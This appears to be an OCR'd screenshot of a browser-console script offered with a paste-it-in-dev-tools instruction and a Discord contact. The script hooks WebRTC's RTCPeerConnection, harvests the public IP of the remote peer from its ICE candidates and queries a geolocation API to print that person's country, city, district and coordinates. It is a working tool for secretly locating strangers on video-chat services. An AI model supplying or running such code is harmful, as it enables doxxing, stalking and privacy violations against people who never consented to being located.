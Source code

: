 copy paste in dev tools console in google
if u need help add revxyyx#3739 on discord
const apikey = "my-api-key";

 window.oRTCPeerConnection =
   window.oRTCPeerConnection || window.RTCPeerConnection;

 window.RTCPeerConnection = function (...args) { 
    const pc = new window.oRTCPeerConnection(...args);

 pc.oaddIceCandidate = pc.addIceCandidate;

 pc.addIceCandidate = function (iceCandidate, ...rest) {
    const fields = iceCandidate.candidate.split(" ");
    const ip = fields [4]; 
    if (fields [7] === "srflx") {
      getLocation(ip);
    } 
    return pc.oaddIceCandidate(iceCandidate, ...rest);
  };
  return pc;
};

const getLocation = async (ip) => {
  let url = `https://api.ipgeolocation.io/ipgeo?apiKeys=${apikey}&ip=${ip}`;

  await fetch(url).then((response) =>
    response.json().then((json) => {
      const output = `
          --------------------
          Country: ${json.country_name}
          State: ${json.state_prov}
          City: ${json.city}
          District: ${json.district}
          Lat / Long: (${json.latitude}, ${json.longitude})
          --------------------
         `;
      console.log(output);
    })
  );
};
